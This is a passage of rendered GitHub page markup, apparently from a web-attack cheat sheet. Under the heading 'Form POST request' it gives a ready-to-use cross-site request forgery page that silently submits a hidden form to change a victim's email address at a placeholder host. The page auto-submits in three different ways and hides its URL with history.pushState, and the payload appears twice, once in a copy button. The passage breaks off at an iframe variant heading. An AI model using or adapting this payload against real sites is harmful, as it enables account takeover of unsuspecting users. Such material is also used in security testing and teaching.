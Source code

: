 <h3 dir="auto"><a id="user-content-form-post-request" class="anchor" aria-hidden="true" href="#form-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://victim.net/email/change-email" id="csrfform"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /&gt; &lt;!-- Way 1 to autosubmit --&gt;
      &lt;input type="submit" value="Submit request" /&gt;
      &lt;img src=x onerror="csrfform.submit();" /&gt; &lt;!-- Way 2 to autosubmit --&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit(); //Way 3 to autosubmit
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action=&quot;https://victim.net/email/change-email&quot; id=&quot;csrfform&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; autofocus onfocus=&quot;csrfform.submit();&quot; /> <!-- Way 1 to autosubmit -->
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
      <img src=x onerror=&quot;csrfform.submit();&quot; /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request-through-iframe" class="anchor" aria-hidden="true" href="#form-post-request-through-iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request through iframe</h3>